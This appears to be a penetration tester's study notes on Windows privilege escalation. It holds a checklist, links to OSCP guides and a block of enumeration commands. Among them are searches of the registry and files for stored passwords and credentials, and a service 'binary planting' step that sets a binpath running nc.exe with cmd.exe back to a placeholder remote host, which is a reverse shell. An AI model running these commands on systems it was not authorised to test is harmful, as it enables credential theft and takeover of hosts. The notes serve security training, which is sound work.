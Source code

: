 
# Guide

1. Repeat below under every single privilege increase
2. Run [[#Default Commands]]
3. Check the users on the victim, `net users`


# Table of Contents

1. If a binary is found within a users directory it is likely exploitable.
2. General guide which lists a vast array of exploits and methods of exploitation, see [Privilege Escalation - Windows](https://mysecurityjournal.blogspot.com/p/client-side-attacks.html)
3. See [[Watson]] to find operating system vulnerabilities  
4. Flags may be within network drives, try mapping, see [[Network Drives]]:
5. If any [[Valuable Files#SAM and System Files]] are found, see [[SamDump]]
6. If you have a hash which you cannot crack, see [[Passing the Hash]]
7. If internal ports are found they can be probed by [[Powercat]] 

#### Walkthroughs

1. [OSCP\_Cheat\_sheet/Windows Privilege Escalation Techniques.md at main · xXxhagenxXx/OSCP\_Cheat\_sheet · GitHub](https://github.com/xXxhagenxXx/OSCP_Cheat_sheet/blob/main/Windows%20Privilege%20Escalation%20Techniques.md)
2. [Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
3. [Privilege Escalation - Windows · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
# Default Commands 

1. [[windows-privesc-check]]
2. [[WinPeas]]
3. [[Windows Exploit Suggester - Next Generation (WES-NG)]]



# Extra Enumeration Commands

```
// What system are we connected to?
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get tokens and privileges 
whoami /priv

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Printer?
route print

// ARP-arific
arp -A

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all

// Scheduled tasks
schtasks /query /fo LIST /v

// Running processes to started services
tasklist /SVC
net start

// Driver madness
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!

// [[Saved Credentials]] 
cmdkey /list

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic service get name,displayname,pathname,startmode
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
wmic product get name, version, vendor

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// AutoRun (See [[AutoRun SysInternals]])
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

// [[Registry Passwords]] 
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]
sc qc dllsvc (See [[DLL Hijacking]] )
sc qc regsvc (If NT Auth, see [[RegSVC Writable]])
sc qc filepermsvc (If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]])

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe /accepteula -uwcqv user daclsvc
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

driverquery /v /fo csv
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```